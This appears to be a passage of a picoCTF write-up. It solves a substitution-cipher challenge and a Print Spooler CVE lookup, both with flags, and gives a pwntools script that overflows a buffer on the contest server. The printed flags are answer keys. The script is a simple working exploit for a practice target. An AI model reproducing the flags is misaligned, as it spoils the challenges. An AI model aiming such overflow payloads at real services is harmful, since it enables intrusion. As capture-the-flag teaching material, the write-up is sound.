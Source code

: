### substitution1

A second message has come in the mail, and it seems almost identical to the first one. Maybe the same thing will work again.
Download the message here.

`WILh (hjpai lpa wrtikan ijn lbrc) ran r ietn pl wpgtkina hnwkazie wpgtnizizpu. Wpuinhiruih ran tanhnuiny szij r hni pl wjrbbnucnh sjzwj inhi ijnza wanrizdzie, inwjuzwrb (ruy cppcbzuc) hfzbbh, ruy tapobng-hpbdzuc rozbzie. Wjrbbnucnh khkrbbe wpdna r ukgona pl wrincpaznh, ruy sjnu hpbdny, nrwj eznbyh r hiazuc (wrbbny r lbrc) sjzwj zh hkogziiny ip ru pubzun hwpazuc hnadzwn. WILh ran r canri sre ip bnrau r szyn raare pl wpgtkina hnwkazie hfzbbh zu r hrln, bncrb nudzapugnui, ruy ran jphiny ruy tbreny oe grue hnwkazie capkth rapkuy ijn spaby lpa lku ruy tarwizwn. Lpa ijzh tapobng, ijn lbrc zh: tzwpWIL{LA3VK3UWE_4774WF5_4A3_W001_O810YY84}`

`PICOCTF{FR3QU3NCY_4774CK5_4R3_C001_B810DD84}`

Using <https://www.dcode.fr/monoalphabetic-substitution>

`CTFS (SHORT FOR CAPTURE THE FLAG) ARE A TYPE OF COMPUTER SECURITY COMPETITION. CONTESTANTS ARE PRESENTED WITH A SET OF CHALLENGES WHICH TEST THEIR CREATIVITY, TECHNICAL (AND GOOGLING) SKILLS, AND PROBLEM-SOLVING ABILITY. CHALLENGES USUALLY COVER A NUMBER OF CATEGORIES, AND WHEN SOLVED, EACH YIELDS A STRING (CALLED A FLAG) WHICH IS SUBMITTED TO AN ONLINE SCORING SERVICE. CTFS ARE A GREAT WAY TO LEARN A WIDE ARRAY OF COMPUTER SECURITY SKILLS IN A SAFE, LEGAL ENVIRONMENT, AND ARE HOSTED AND PLAYED BY MANY SECURITY GROUPS AROUND THE WORLD FOR FUN AND PRACTICE. FOR THIS PROBLEM, THE FLAG IS: PICOCTF{FR3QU3NCY_4774CK5_4R3_C001_B810DD84}`

## Binary Exploitation

### CVE-XXXX-XXXXX

Enter the CVE of the vulnerability as the flag with the correct flag format:
picoCTF{CVE-XXXX-XXXXX} replacing XXXX-XXXXX with the numbers for the matching vulnerability.
The CVE we're looking for is the first recorded remote code execution (RCE) vulnerability in 2021 in the Windows Print Spooler Service, which is available across desktop and server versions of Windows operating systems. The service is used to manage printers and print servers.

With simple googling.
<https://nsfocusglobal.com/windows-print-spooler-rce-vulnerabilities-cve-2021-1675-cve-2021-34527-mitigation-guide/>

`picoCTF{CVE-2021-34527}`

### buffer overflow 0

Smash the stack
Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. And connect with it using:

You can programmatically write a python script to overflow the buffer of the remote program as below.

```python
#!/usr/bin/python

import pwn

host = "saturn.picoctf.net"
port = 55986
payload = bytes('A'*101, encoding="ascii")



conn = pwn.remote(host,port)
conn.sendlineafter(b' ',payload)
output = conn.recvline(timeout=5)

print(output)
```